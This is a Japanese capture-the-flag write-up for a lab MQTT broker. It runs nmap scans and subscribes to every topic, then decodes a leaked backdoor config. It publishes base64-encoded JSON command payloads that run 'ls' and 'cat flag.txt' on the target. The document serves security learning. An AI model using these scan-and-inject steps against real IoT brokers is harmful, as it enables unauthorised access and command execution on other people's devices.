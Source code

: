 ### 🦋 Enum 
```
nmap -Pn -sS 10.10.25.229 -p- --min-rate=1000 -vv

Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
1883/tcp open  mqtt    syn-ack ttl 60
```
```
nmap -Pn -sVC 10.10.25.229 -p 1883 -vv -T4

PORT     STATE SERVICE                  REASON  VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/publish/bytes/sent: 349
|     $SYS/broker/load/connections/5min: 0.51
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/messages/received/1min: 86.11
|     $SYS/broker/load/bytes/received/5min: 1912.58
|     $SYS/broker/load/publish/sent/5min: 6.68
|     livingroom/speaker: {"id":211551651046996595,"gain":41}
|     $SYS/broker/load/sockets/15min: 0.25
|     $SYS/broker/messages/stored: 36
|     $SYS/broker/load/messages/sent/15min: 18.52
|     $SYS/broker/messages/received: 269
|     storage/thermostat: {"id":3296708289509929431,"temperature":24.104994}
|     $SYS/broker/load/publish/sent/15min: 2.25
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/uptime: 176 seconds
|     patio/lights: {"id":15868680515623395794,"color":"BLUE","status":"ON"}
|     $SYS/broker/subscriptions/count: 3
|     $SYS/broker/load/messages/received/5min: 40.58
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/messages/sent/5min: 47.26
|     $SYS/broker/clients/total: 2
|     $SYS/broker/load/sockets/5min: 0.69
|     $SYS/broker/load/sockets/1min: 2.49
|     $SYS/broker/load/bytes/received/15min: 767.85
|     $SYS/broker/publish/messages/sent: 62
|     $SYS/broker/bytes/sent: 3686
|     $SYS/broker/load/connections/15min: 0.19
|     $SYS/broker/publish/bytes/received: 8994
|     $SYS/broker/load/connections/1min: 1.89
|     $SYS/broker/messages/sent: 330
|     $SYS/broker/load/messages/received/15min: 16.27
|     $SYS/broker/load/bytes/sent/15min: 155.79
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/bytes/received: 12702
|     $SYS/broker/clients/maximum: 2
|     $SYS/broker/retained messages/count: 38
|     $SYS/broker/store/messages/count: 36
|     $SYS/broker/load/publish/sent/1min: 31.07
|     $SYS/broker/load/messages/sent/1min: 117.18
|     $SYS/broker/store/messages/bytes: 271
|     $SYS/broker/load/bytes/sent/1min: 1594.43
|     $SYS/broker/load/bytes/sent/5min: 431.08
|_    $SYS/broker/load/bytes/received/1min: 4023.83

Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
```

```
curl 10.10.25.229:1883 -vv
*   Trying 10.10.25.229:1883...
* Connected to 10.10.25.229 (10.10.25.229) port 1883 (#0)
> GET / HTTP/1.1
> Host: 10.10.25.229:1883
> User-Agent: curl/7.88.1
> Accept: */*
> 
* Recv failure: 接続が相手からリセットされました
* Closing connection 0
curl: (56) Recv failure: 接続が相手からリセットされました
```

mosquitto version 2.0.14 とヒントから対象はMQTTサーバっぽい。

https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

こちらの記事から、以下のクライアントで通信してみることにした。

https://github.com/bapowell/python-mqtt-client-shell

### 🦋 Flag

```
└─$ python MQTT_Client.py

Welcome to the MQTT client shell.
Type help or ? to list commands.
Pressing <Enter> on an empty line will repeat the last command.

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> logging off

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connection

Connection args: host=localhost, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> host 10.10.25.229

Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connect

***CONNECTED***
Subscriptions: 
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> subscribe #
...msg_id=1, result=0 (No error.)

***CONNECTED***
Subscriptions: (topic=#,qos=0)
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
>                               on_message(): message received: Topic: patio/lights, QoS: 0, Payload Length: 58
                                                              Payload (str): b'{"id":16203475553139602730,"color":"WHITE","status":"OFF"}'
                                                              Payload (hex): b'7b226964223a31363230333437353535333133393630323733302c22636f6c6f72223a225748495445222c22737461747573223a224f4646227d'
                              on_message(): message received: Topic: frontdeck/camera, QoS: 0, Payload Length: 97
                                                              Payload (str): b'{"id":12711243125979531289,"yaxis":-30.734741,"xaxis":8.347092,"zoom":3.7394342,"movement":false}'

```
ホスト設定後、チュートリアルとおりのコマンドでそれっぽいデータ受信を確認。

しばらくしてると、Topic: yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config　で始まるB64されたおかしいMSGを受信するのでPayloadをデコードする。

![image](https://user-images.githubusercontent.com/6504854/236677887-22e8a30d-698b-49a2-a686-cf07b1633e53.png)

![image](https://user-images.githubusercontent.com/6504854/236678248-ef0391ea-3f28-4215-82f6-ed5868d47632.png)

この電文を元にopicとPayloadの組み合わせを考えいれてみた。
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
```
publish pub_topic "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
publish pub_topic "HELP"
publish pub_topic "CMD"
publish pub_topic "SYS"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "HELP"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "CMD"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "SYS"

publish sub_topic "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
publish sub_topic "HELP"
publish sub_topic "CMD"
publish sub_topic "SYS"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "HELP"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "CMD"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "SYS"
```
![image](https://user-images.githubusercontent.com/6504854/236678975-ad9603e0-3a2f-42e1-8c33-672bd1134fa6.png)
![image](https://user-images.githubusercontent.com/6504854/236679221-65f00435-d344-4fef-a0da-3a11ea94bdd1.png)

どうも下３こ反応しているように見受けられる。デコードする。argってなに？（なんらかの引数でしょうね、はい）。
また以下PayloadをB64していれてみる。

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP", "arg": ""}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS", "arg": ""}
```

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"} の結果
![image](https://user-images.githubusercontent.com/6504854/236681441-19e41a13-e671-403f-ae9c-a8b8dc82c08b.png)

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"} の結果
![image](https://user-images.githubusercontent.com/6504854/236682086-4a630e7a-234e-4fd5-93b9-cf4ab34626d3.png)


うーん。B64して遊んでたら休みが終わった。。。MQTTの仕様はなんもわかってない。


